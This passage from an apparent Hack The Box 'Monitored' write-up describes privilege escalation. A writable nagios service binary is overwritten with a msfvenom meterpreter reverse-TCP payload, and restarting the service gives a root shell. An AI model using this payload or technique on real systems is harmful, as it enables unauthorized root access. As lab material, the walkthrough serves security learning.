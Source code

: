 The first lines show examples of use and then what are the possible commands and services that can be used. So I set out to find a binary that can be replaced, finding it in */usr/local/nagios/bin/nagios*.

```bash
nagios@monitored:~$ ls -al /usr/local/nagios/bin/nagios
ls -al /usr/local/nagios/bin/nagios
-rwxrwxr-- 1 nagios nagios 717648 Nov  9 10:40 /usr/local/nagios/bin/nagios
```

Then I use [msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create an elf which, when run, creates a reverse shell.

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=1234 -f elf -o nagios`

We then restart nagios, after running msfconsole and therefore we have a shell.

<p align="center">
  <img src="images/rooted.png" />
</p>

In */root* there is the root flag.

## Pwned Info

<p align="center">
    <a href="https://www.hackthebox.com/achievement/machine/805273/583">
        <img src="images/Pwned.png" width="600">
    </a>
</p>

